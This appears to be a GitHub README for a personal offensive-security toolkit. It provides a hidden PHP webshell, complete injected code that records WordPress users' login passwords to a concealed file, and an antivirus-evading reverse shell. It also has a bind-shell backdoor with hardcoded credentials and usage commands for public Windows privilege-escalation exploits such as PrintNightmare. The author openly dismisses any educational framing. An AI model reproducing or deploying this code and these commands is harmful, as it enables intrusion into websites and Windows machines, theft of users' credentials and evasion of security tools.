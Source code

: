 # JustRepository

Testing project

## Getting Started

These are repository for tools and code I modify and compile for fun (?). I want to say "use this for educational purposes only" but I know it won't change your evil thoughts.

### Webshell.php

simple webshell that protected with parameter.
Upload shell. rename it with ".page.backup.php". 
Call it with your own parameter:
```
example.com/uploads/.page.backup.php?dxnboy=4343
```
Modified from:

* **Flozz** - *PHP shell* - [P0wny Shell](https://github.com/flozz/p0wny-shell)

### Inject Wordpress

Inject user.php in wordpress to record credentials that login (kind of keylogger). Required user priviledge that can write to wordpress directory. 
edit file wordpress/wp-include/user.php. Just note for real world usage there will be many login attemp if login page is exposed by default because people using bots to bruteforce, means that .txt file logger will has a lot of false negative and large data

before
```
if ( ! empty( $credentials['remember'] ) ) {
                $credentials['remember'] = true;
} else {
                $credentials['remember'] = false;
}
```

after inject
```
if ( ! empty( $credentials['remember'] ) ) {
                $credentials['remember'] = true;
                date_default_timezone_set('Asia/Jakarta');
                $credz = date('Y-m-d H:i:s') . " || IP: " . get_client_ip() . " || Username: " . $_POST['log'] . " && Password: " . $_POST['pwd'];
                file_put_contents('wp-content/uploads/.page.txt', base64_encode($credz).PHP_EOL, FILE_APPEND);
} else {
                $credentials['remember'] = false;
                date_default_timezone_set('Asia/Jakarta');
                $credz = date('Y-m-d H:i:s') . " || IP: " . get_client_ip() . " || Username: " . $_POST['log'] . " && Password: " . $_POST['pwd'];
                file_put_contents('wp-content/uploads/.page.txt', base64_encode($credz).PHP_EOL, FILE_APPEND);
}
```

Encoded with base64. call it in: and decode it with base64
```
wordpress/wp-content/uploads/.page.txt
```

### Reverse shell Evade Defender AV
In case nc.exe blocked or need single command line reverse shell on limited RCE or single click reverse shell. Using python 2.7 (os,socket,subprocess,threading) converted in exe binary spawn \windows\system32\cmd. Evade by encrypt with base64 and simple print argument. Catch with ncat for rev and meterpreter session for mrev
```
.\rev444
.\mrev4444
```
```
Usage: sel <target ip> <Port #>
.\sel 10.10.14.2 4141
```
### Awesome Backdoor Windows Bind Shell
Windows compiled x64 python exe bindshell Modified from:
* **NullByte** - *Windows Python Bind Shell* - [Python Bind Shell](https://null-byte.wonderhowto.com/how-to/create-bind-shell-python-0163951/)

bind-dxntboy-8282.exe has green status from virus total and can be run on updated Win 10 Enterprise (atleast until today it created). Bind to port 8282, USER:dxntboy, PASS:pass and ready to go. Default pipe from script will bind up to 5 connection. Will compile in stealth mode (no cmd pop up and running in background) if I has to use in real world and will mutate encoding base64 using tool from neetspooky base64 mutate. Run bind-dxntboy-8282.exe file and connect via ncat
```
nc <target> 8282
```

### SharpPrintNightmare.exe

* **cube0x0** - *CVE-2021-1675* - [SharpPrintNightmare](https://github.com/cube0x0/CVE-2021-1675)
```
#LPE
C:\SharpPrintNightmare.exe C:\rev.dll

#RCE using existing context
SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' '\\192.168.1.20'

#RCE using runas /netonly
SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' '\\192.168.1.10' hackit.local domain_user Pass123
 ```

### watch.sh & procmon.sh
In case we didn't get fully tty shell, watch.sh similar to watch and procmon.sh similar to pspy. Added time argument so script will stop in spesific time, by default script will stop at 300 seconds. 
```
./watch.sh <directory (default=.)> <time (default=300)>
./watch.sh /tmp/ 60
./watch.sh /opt/script/tmp/
./procmon.sh <time (default=300)>
```
### RemotePotato0.exe

* **antonioCoco** - *potato variant* - [RemotePotato0](https://github.com/antonioCoco/RemotePotato0)
```
#user session must exist
query user
.\RemotePotato0.exe -m 0 -r 10.0.0.20 -x 10.0.0.20 -p 9999 -s 1

#try different module
RemotePotato0.exe -m 1 -l 9997 -r 10.0.0.20
RemotePotato0.exe -m 2 -s 1
RemotePotato0.exe -m 3 -l 9997
 ```
 
 ### SeRestoreAbuse.exe

* **xct** - *Abuse SeRestorePriviledge* - [SeRestoreAbuse](https://github.com/xct/SeRestoreAbuse)
```
SeRestoreAbuse.exe "cmd /c ..."
SeRestoreAbuse.exe "cmd /c C:\temp\rshell.exe"
 ```

### InstallerFileTakeOver.exe x64 version

* **klinix5** - *CVE-2021-41379* - [InstallerFileTakeOver](https://github.com/klinix5/InstallerFileTakeOver)
```
InstallerFileTakeOver.exe <file-to-takeover>
 ```

